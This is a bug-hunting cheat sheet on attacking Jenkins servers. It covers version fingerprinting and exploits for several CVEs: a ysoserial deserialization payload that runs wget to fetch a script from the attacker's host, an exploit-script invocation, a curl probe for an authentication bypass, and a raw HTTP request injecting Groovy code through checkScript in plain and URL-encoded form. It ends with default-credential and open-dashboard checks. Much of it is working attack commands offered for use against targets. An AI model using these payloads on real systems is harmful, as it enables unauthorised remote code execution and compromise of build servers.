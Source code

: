 ```yaml
---
title: Jenkins
tags: [bug hunting, jenkins]
categories: [bug hunting, jenkins]
date: 2022-05-20 11:33:00
---
```


# Jenkins Common Bugs

## Introduction
What would you do if you came across a website that uses Jenkins?

## How to Detect
Usually in the HTTP response there is a header like this `X-Jenkins`

1. Find the related CVE by checking jenkins version
* How to find the jenkins version

By checking the response header `X-Jenkins`, sometimes the version is printed there. If you found outdated jenkins version, find the exploit at [pwn_jenkins](https://github.com/gquere/pwn_jenkins)

Some example CVE:
- Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

- Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

- CheckScript RCE in Jenkins (CVE-2019-1003030)

How to Exploit:
- [PacketStorm](https://packetstormsecurity.com/files/159603/Jenkins-2.63-Sandbox-Bypass.html)

```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1
```
URL Encoding the following for RCE
```
public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
    }
}
```
to

%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d

2. Default Credentials
```
Try to login using admin as username and password
```

3. Unauthenticated Jenkins Dashboard
```
Access https://target.com and if there is no login form then it is vulnerable
```
